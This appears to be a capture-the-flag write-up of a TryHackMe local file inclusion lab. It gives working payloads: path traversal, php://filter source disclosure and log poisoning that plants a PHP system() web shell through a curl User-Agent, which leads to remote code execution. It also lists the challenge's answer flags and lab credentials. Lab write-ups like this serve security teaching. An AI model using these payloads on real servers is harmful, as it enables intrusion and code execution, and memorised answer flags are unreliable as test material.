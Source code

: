 ## Topic: Web Exploitation
### Challenge Name: Patch Management Is Hard

Challenge is an introduction on Local File Inclusion (LFI) vulnerabilities. 

LFI to read flag is just simply replace `error.txt` in the url on the homepage to `/etc/flag`.  
Reading the `index.php` flag is harder using php filter technique. `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=index.php` then base 64 decode the result on the webpage to read the flag and source code.  
See in sourcecode that its grabbing credentials from `./includes/creds.php`
![[Pasted image 20211220174815.png]]

Look at that file by using our earlier php filter technique.  
url: `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`
Find credentials:
```
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
```
app_access.log has a parameter RCE that allows us to execute code. 
command to get RCE: `curl -A "<?php echo 'test'; system(\$_GET['cmd']);?>" http://10.10.104.42/`
url to perform RCE: `http://10.10.104.42/index.php?err=../../../../../../var/www/html/includes/logs/app_access.log&cmd=hostname`
### Questions:

1. Deploy the attached VM and look around. What is the entry point for our web application?
 `err`
2. Use the entry point to perform LFI to read the /etc/flag file. What is the flag?
url: `http://10.10.244.228/index.php?err=/etc/flag`
flag: `THM{d29e08941cf7fe41df55f1a7da6c4c06}`
3. Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?
url:`http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=index.php`
flag:`THM{791d43d46018a0d89361dbf60d5d9eb8}`
4. Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?
url: `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`
answer: `McSkidy:A0C315Aw3s0m`
5. Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server?
flag: `THM{552f313b52e3c3dbf5257d8c6db7f6f1}`
6. The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.
url:`http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/logs/app_access.log`
answer:`lfi-aoc-awesome-59aedca683fff9261263bb084880c965`